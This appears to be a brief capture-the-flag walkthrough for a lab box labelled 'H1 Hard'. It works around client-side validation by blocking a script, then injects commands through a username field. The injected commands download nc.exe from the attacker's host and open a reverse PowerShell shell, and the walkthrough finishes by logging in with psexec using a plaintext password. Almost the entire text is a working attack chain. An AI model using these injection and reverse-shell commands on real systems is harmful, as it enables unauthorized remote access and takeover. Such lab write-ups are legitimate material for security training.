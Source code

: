# H1 Hard
## Step 1
1. goto -> `http://$IP/signup` and sign up.
2. `profile -> change username`
3. Right Click -> Inspect -> Netwok -> Right Click to script.js and click to Block URL
4. `cd webserver; python -m http.server 8080`.
5. Paste `jin | powershell curl YOUR_IP:8000/nc.exe -o nc.exe` to change username
## Step 2
1. Paste `nc -nvlp 45789` on your terminal and execute
2. Paste `jin | nc.exe YOUR_IP 45789 -e powershell` to change username
3. Paste `python3 psexec.py $IP/achilles:winniethepooh@$IP` to terminal
4. Done
5. Now, check blue team windows notes.
